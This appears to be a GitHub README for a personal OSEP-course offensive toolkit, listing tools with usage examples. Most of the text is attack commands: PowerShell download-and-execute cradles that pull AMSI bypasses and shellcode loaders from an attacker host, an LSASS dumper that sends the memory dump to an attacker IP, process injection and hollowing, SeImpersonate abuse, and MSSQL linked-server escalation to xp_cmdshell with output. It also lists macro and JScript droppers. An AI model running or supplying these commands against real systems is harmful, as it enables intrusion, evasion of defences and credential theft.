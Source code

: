### OSEP Tools

Simple collection of tools that i've made mainly for Offsec's OSEP course and exam



##### PowerShell

Powershell scripts:

1. `ad_enum.ps1` - Simple wrapper around PowerView to generate an AD Domain enumeration summary for a given domain

Example usage

```Powershell
## Disable AMSI
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/amsi.ps1")|IEX
## Load PowerView
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/PowerView.ps1")|IEX
## Load the wrapper
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/ad_enum.ps1")|IEX
## Invoke
Invoke-Enum -Domain example.com
```

2. `amsi.ps1` - Simple obfuscated AMSI bypasses based on few different techniques

3. `basic_loader.ps1` - Basic shellcode loader, mainly used for PE shellcode generated with donut

Example usage

```Powershell
## Generate the shellcode of a given PE
donut -i Rubeus.exe -p "triage" -x 2 -o loader.bin
## Invoke the loader after hosting the generated shellcode, at the moment the URL for the shellcode is hardcoded as i was lazy to change it
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/basic_loader.ps1")|IEX
```

4. `invoke_assembly.ps1` - Simple powershell script to dynamically invoke C# assemblies

Example usage

```powershell
## Host the given assembly and load the script
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/invoke_assembly.ps1")|IEX
## Invoke the assembly
Invoke-Assembly -Program http://pwndrop.local/Rubeus.exe -Arguments "triage"
```

5. `lsass_dumper.ps1` - LSASS process dumper that is using a tcp socket to exfiltrate the generated memory dumper

Example usage

```powershell
## Prepare a TCP listener, netcat or a simple python script
python receiver.py
## Load and invoke the script
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/lsass_dumper.ps1")|IEX
Invoke-Dump -Destination 192.168.49.70:12345
## The generated dump can then be parsed with mimikatz or pypykatz
```

6. `process_hollowing.ps1` - Simple process hollowing injection in powershell

Example usage

```powershell
## Load the script and invoke the injection
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/process_hollowing.ps1")|IEX
Invoke-Hollow -Shellcode http://pwndrop.local/sc.bin -Process "C:\Windows\System32\svchost.exe"
```

7. `scexec.ps1` - Powershell script for lateral movement based on the SCExec technique (Windows service manager)

Example usage

```powershell
## Change the required parameters
$target = "192.168.1.25"
$service = "SensorService"
$payload = "C:\windows\system32\cmd.exe /c powershell /c whoami"

## Execute the script 
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/scexec.ps1")|IEX
```

8. `spawn_and_inject.ps1` - Classic Spawn and inject shellcode runner

Example usage

```powershell
## Load the script and invoke
(New-Object System.net.WebClient).DownloadString("http://pwndrop.local/spawn_and_inject.ps1")|IEX
Invoke-Injection -Shellcode http://pwndrop.local/demon.bin -Process C:\Windows\System32\notepad.exe
```



##### CSharp

Csharp based tools:

1. `Dll_Dropper.cs` - Simple DLL based in csharp that can be used to inject shellcode or spawn powershell download cradle in a custom runspace, it depends on [DllExport](https://github.com/3F/DllExport)
It can be run with `rundll32.exe` or any other DLL loading method, there are two functions exported one for the injector (Inject) and one for powershell (PSRun)

2. `SEImpersonate.cs` - Custom tool to abuse the `SeImpersonatePrivilege` by creating a named pipe and impersonating the connected client. The tool expects two arguments: program to spawn and pipe to create. It was designed to be used with [SpoolSample.exe](https://github.com/leechristensen/SpoolSample), however any other coercion method should do

Example usage

```powershell
## Preapre the named pipe and specify what should be ran, it can be a loader, powershell download cradle or any other program
impersonate.exe C:\windows\system32\cmd.exe \\.\pipe\test\pipe\spoolss
## Run spool sample to coerce the host to connect to our named pipe
SpoolSample.exe WEB05 WEB05/pipe/test
```

3. `Service.cs` - Basic shellcode loader in the form of a windows service, mainly used for lateral movement with psexec or persistence

4. `SQL.cs` - Simple utility to abuse MSSQL integrated authenticaton, it can be used for enumeration, command execution and linked server abuse or ntlm relaying.

Example usage

```powershell
## Enumerate the current user access to the specified instance: privileges, linked servers, impersonation accounts etc..
sql.exe --host db05 --operation enum

## Execute OS commands through two methods:
## 1. standard xp_cmdshell
## 2. OLE object creation
sql.exe --host db05 --operation exec --cmd whoami
sql.exe --host db05 --operation exec-ole --cmd whoami

## Coerce the SQL server to authenticate against arbitrary share trough xp_dirtree, ntlm hash can be captured or the auth relayed
sql.exe --host db05 --operation dirtree --rhost 192.168.1.221

## Execute raw sql queries
sql.exe --host db05 --operation query --raw "SELECT SYSTEM_USER()"

## Linked servers and impersonation can also be used
sql.exe --host db05 --operation exec --cmd whoami --link db06 --as-user sa
sql.exe --host db05 --operation exec-ole --as-user sa
sql.exe --host db05 --operation exec-old --link db06

## Example traverse linked service for privilege escalation
SQL.exe --host db01 --operation query --raw "EXECUTE AS LOGIN = 'dev_int'; EXEC ('EXEC (''select SYSTEM_USER'') at DB01') AT DB02;"

## Enabling xp_cmdshell and executing commands trough link via raw query
sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT DB01') AT DB02"
sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT DB01') AT DB02"
sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''xp_cmdshell ''''whoami'''';'') AT DB01') AT DB02"
[+] Authenticated
[+] Executing raw query
nt service\mssql$sqlexpress

## Privilege escalation by following links: db01 (regular user) -> db02 (sa user) -> db01 (sa user)
sql.exe --host db01 --as-user dev_int --operation query --raw "EXEC ('EXEC (''EXEC (''''SELECT SYSTEM_USER'''') AT DB02'') at DB01') AT DB02;"

## Getting command execution trough the same privilege escalation via sql links
*Evil-WinRM* PS C:\windows\tasks> ./sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''EXEC (''''sp_configure ''''''''show advanced options'''''''', 1; reconfigure;'''') AT DB02'') at DB01') AT DB02;"
[+] Authenticated
[+] Executing raw query

*Evil-WinRM* PS C:\windows\tasks> ./sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''EXEC (''''sp_configure ''''''''xp_cmdshell'''''''', 1; reconfigure;'''') AT DB02'') at DB01') AT DB02;"
[+] Authenticated
[+] Executing raw query

*Evil-WinRM* PS C:\windows\tasks> ./sql.exe --host db01.cowmotors-int.com --as-user dev_int --operation query --raw "EXEC ('EXEC (''EXEC (''''xp_cmdshell ''''''''whoami'''''''';'''') AT DB02'') at DB01') AT DB02;"
[+] Authenticated
[+] Executing raw query
nt service\mssql$sqlexpress



##### Escalation from db_owner on msdb (or other trustworthy database)
## Check trustworthy database
./sql.exe --host dc02.lab.local --operation query --raw "SELECT a.name,b.is_trustworthy_on FROM master..sysdatabases as a INNER JOIN sys.databases as b ON a.name=b.name;"
[+] Authenticated against: master
[+] Executing raw query
master | False
tempdb | False
model | False
msdb | True

## Check DB owners
./sql.exe --host dc02.lab.local --operation query --raw "SELECT rp.name as database_role, mp.name as database_user from sys.database_role_members drm join sys.database_principals rp on (drm.role_principal_id = rp.principal_id) join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)" --database msdb
[+] Authenticated against: msdb
[+] Executing raw query
.....
.....
db_owner | LAB\svc_sql


## Create a procedure to grant the current user sysadmin
./sql.exe --host dc02.lab.local --operation query --raw "CREATE OR ALTER PROCEDURE dbo.hacker WITH EXECUTE AS owner AS ALTER SERVER ROLE sysadmin ADD MEMBER [LAB\svc_sql];" --database msdb

## Exec procedure and get code execution
./sql.exe --host dc02.lab.local --operation query --raw "exec dbo.hacker;" --database msdb

./sql.exe --host dc02.mythical-eu.vl --operation exec --cmd whoami
[+] Authenticated against: master
[+] Attempting to enable xp_cmdshell on server 
    Result:
nt service\mssql$sqlexpress
```


##### Initial access

Basic initial access tools

1. `dotnet_exec.js` - Modified version of a DotNetToJS Jscript script, all that it needs is a dotnet based assembly in base64 format (the one that DotNetToJs generates and embeds), however in this case instead of embedding it its download from a webserver

2. `dropper.js` - Simple JSCript dropper that is downloading two files and abusing the Microsoft workflow compiler, mainly used for AppLocker bypass.

3. `ps_dropper.vba` - Simple VBA macro that is executing an obfuscated powershell download cradle

4. `loader.vba` - Simple VBA macro that is fetching shellcode from a remote server and injects it in the word process, mainly used for initial access, keep in mind that you have to migrated to a more stable process after the initial compromise.

5. `source.txt`, `out.xml` - CSharp Spawn and Inject source code for usage with the Microsoft workflow compiler execution technique, out.xml is the XML required by the technique, the two files are hosted on a webserver and then the dropper.js can be send to the victim (or embedded in an HTA app)



##### Python

1. `Lateral.py` - Havoc extension that is used for powershell based lateral movement (WMI or WINRM). It can be used by explicitly supplying credentials or stealing a token.


